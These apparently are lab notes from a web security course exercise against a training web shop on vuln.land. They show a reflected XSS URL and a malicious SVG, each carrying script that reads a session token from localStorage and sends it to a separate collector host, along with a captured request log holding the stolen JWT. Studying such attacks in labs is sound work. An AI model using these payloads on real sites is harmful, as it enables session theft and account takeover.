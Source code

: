 ```url
https://332c0e0d-137d-49ae-b806-a1dce5677ec8.idocker.vuln.land/#!/shop?selectedQuantity=1<script>XSSImage=new Image;XSSImage.src='https://a1351a17-8997-4f99-9557-4e05eb2b7695.idocker.vuln.land/abcd?token='%2BlocalStorage.getItem('token');</script>
```

```
URL: http://a1351a17-8997-4f99-9557-4e05eb2b7695.idocker.vuln.land/abcd?token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTY5NjcwNDU3NiwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.5BUnuWUt1Unf-q7tMy1UTfMwpTjVMLYgZsViBp6xpTs%22
METHOD: GET
IP: 10.20.0.1
Time: 2023-10-07 19:14:54
Headers:
Host: a1351a17-8997-4f99-9557-4e05eb2b7695.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Referer: https://332c0e0d-137d-49ae-b806-a1dce5677ec8.idocker.vuln.land/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 51.154.62.18
X-Forwarded-Host: a1351a17-8997-4f99-9557-4e05eb2b7695.idocker.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: vm-docker-01.vuln.land
X-Real-Ip: 51.154.62.18


QueryString:
b'token=%22eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjpmYWxzZSwiX2lkIjoiNWFhMDQ4MWU4NzZkOWQzOWQ0Mzk3ODVjIiwidXNlcm5hbWUiOiJjdXN0b21lcjEiLCJmaXJzdG5hbWUiOiJQZXRlciIsImxhc3RuYW1lIjoiSG9sem1hbm4iLCJlbWFpbCI6IlBldGVyLkhvbHptYW5uQGdtYWlsLmNvbSIsImlhdCI6MTY5NjcwNDU3NiwiYXVkIjoic2VsZiIsImlzcyI6IndlYnNob3AifQ.5BUnuWUt1Unf-q7tMy1UTfMwpTjVMLYgZsViBp6xpTs%22'
===================================================
```

# GlockenEmil 2.0 – SVG

- tried the same things as the challenges before but now inside the svg itself
- based on the given information from the lecture we prepared the malicious svg

```svg
<?xml version="1.0" encoding="UTF-8"?>
<svg xmlns="http://www.w3.org/2000/svg" width="1000" height="1000" viewBox="0 0 32 32">
<rect fill="#f00" height="32" width="32"/>
<rect fill="#fff" height="6" width="20" x="6" y="13"/>
<rect fill="#fff" height="20" width="6" x="13" y="6"/>
<script>
XSSImage=new Image;
XSSImage.src='https://50065b9f-1f0d-4b75-8c95-77244a799976.idocker.vuln.land/abcd?token=' + localStorage.getItem('token');
</script>
</svg>
```
